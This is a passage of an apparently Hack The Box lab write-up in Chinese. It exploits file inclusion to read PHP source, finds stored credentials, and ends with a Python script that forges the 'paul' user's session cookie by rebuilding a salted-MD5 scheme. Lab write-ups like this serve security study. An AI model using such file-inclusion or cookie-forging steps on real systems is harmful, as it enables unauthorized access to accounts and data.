 同时发现，疑似文件包含：

![](/htb_img/WEBRESOURCEb358716131321cf3f726119aac887f51image.png)

根据报错，看样子是有了：

![](/htb_img/WEBRESOURCE4c50303b32179b578469e85d451c9bffimage.png)

成功读取cookie.php:

![](/htb_img/WEBRESOURCE7bd0675c4fd79d436654812ca19e2971image.png)

查看login.php的源码：

![](/htb_img/WEBRESOURCEe2d9dc38b25f889b59062562bab56330image.png)

似乎authController.php才是负责身份控制的：

![](/htb_img/WEBRESOURCE378001e303caa274ed5fed50c7783e12image.png)

发现数据文件：

![](/htb_img/WEBRESOURCE2903756de18100cc7ab83d37d08408bdimage.png)

发现账号密码：

![](/htb_img/WEBRESOURCE2858bb6f9846a0f08a70ca842e07602dimage.png)

但是不允许登录：

![](/htb_img/WEBRESOURCE75f311313cc9cf369f8e48733673959bimage.png)

看来得代码审计了，目前的用户为cxk1，在登录后台有个我们感兴趣的功能，叫做文件管理：

![](/htb_img/WEBRESOURCE4122ba0229a6bb89cb50f80c35c0c010image.png)

读取它：

简单解读，可以发现，这个页面需要用户名为paul的用户才可以访问：

![](/htb_img/WEBRESOURCE4d23778e62cf8f06a5217cbe1a974503image.png)

返回认证相关功能的代码，我们可以伪造，也就是cookie.php的内容：

这里面只需要提供账号名，我们就可以伪造了：

![](/htb_img/WEBRESOURCE910293850c731e21055e0e151283ddb6image.png)

结合上面的文件管理功能，我们可以伪造paul用户的身份凭证：

![](/htb_img/WEBRESOURCE17b9646a16d87a4a2c5ca7a89b2a938fimage.png)

代码如下：

```
import hashlib
import random

def makesession(username):
    max_index = len(username) - 1
    seed = random.randint(0, max_index)
    key = "s4lTy_stR1nG_" + username[seed] + "(!528./9890"
    session_cookie = username + hashlib.md5(key.encode()).hexdigest()

    return session_cookie

# 测试示例
username = "paul"
session_cookie = makesession(username)
```